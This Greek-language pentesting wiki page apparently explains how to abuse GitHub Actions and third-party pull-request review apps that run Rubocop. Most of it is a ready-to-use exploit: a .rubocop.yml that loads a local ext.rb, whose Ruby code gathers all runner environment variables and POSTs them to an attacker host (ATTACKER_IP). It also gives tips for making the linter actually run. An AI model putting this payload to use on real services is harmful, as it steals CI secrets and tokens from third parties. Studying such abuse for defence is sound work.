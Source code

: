 ## Συμβιβασμός & Κατάχρηση Github Action

Υπάρχουν αρκετές τεχνικές για να συμβιβάσετε και να καταχραστείτε ένα Github Action, ελέγξτε τις εδώ:

{{#ref}}
abusing-github-actions/
{{#endref}}

## Κατάχρηση τρίτων GitHub Apps που εκτελούν εξωτερικά εργαλεία (Rubocop extension RCE)

Ορισμένα GitHub Apps και υπηρεσίες αναθεώρησης PR εκτελούν εξωτερικούς ελέγχους/SAST κατά των pull requests χρησιμοποιώντας αρχεία ρυθμίσεων που ελέγχονται από το αποθετήριο. Εάν ένα υποστηριζόμενο εργαλείο επιτρέπει τη δυναμική φόρτωση κώδικα, ένα PR μπορεί να επιτύχει RCE στον εκτελεστή της υπηρεσίας.

Παράδειγμα: Το Rubocop υποστηρίζει τη φόρτωση επεκτάσεων από τη YAML ρύθμισή του. Εάν η υπηρεσία περάσει ένα .rubocop.yml που παρέχεται από το αποθετήριο, μπορείτε να εκτελέσετε αυθαίρετο Ruby απαιτώντας ένα τοπικό αρχείο.

- Οι συνθήκες ενεργοποίησης συνήθως περιλαμβάνουν:
- Το εργαλείο είναι ενεργοποιημένο στην υπηρεσία
- Το PR περιέχει αρχεία που αναγνωρίζει το εργαλείο (για το Rubocop: .rb)
- Το αποθετήριο περιέχει το αρχείο ρύθμισης του εργαλείου (το Rubocop αναζητά το .rubocop.yml οπουδήποτε)

Εκμεταλλευτείτε τα αρχεία στο PR:

.rubocop.yml
```yaml
require:
- ./ext.rb
```
ext.rb (εξαγωγή μεταβλητών περιβάλλοντος runner):
```ruby
require 'net/http'
require 'uri'
require 'json'

env_vars  = ENV.to_h
json_data = env_vars.to_json
url       = URI.parse('http://ATTACKER_IP/')

begin
http = Net::HTTP.new(url.host, url.port)
req = Net::HTTP::Post.new(url.path)
req['Content-Type'] = 'application/json'
req.body = json_data
http.request(req)
rescue StandardError => e
warn e.message
end
```
Επίσης, συμπεριλάβετε ένα αρκετά μεγάλο ψεύτικο αρχείο Ruby (π.χ., main.rb) ώστε ο linter να εκτελείται πραγματικά.
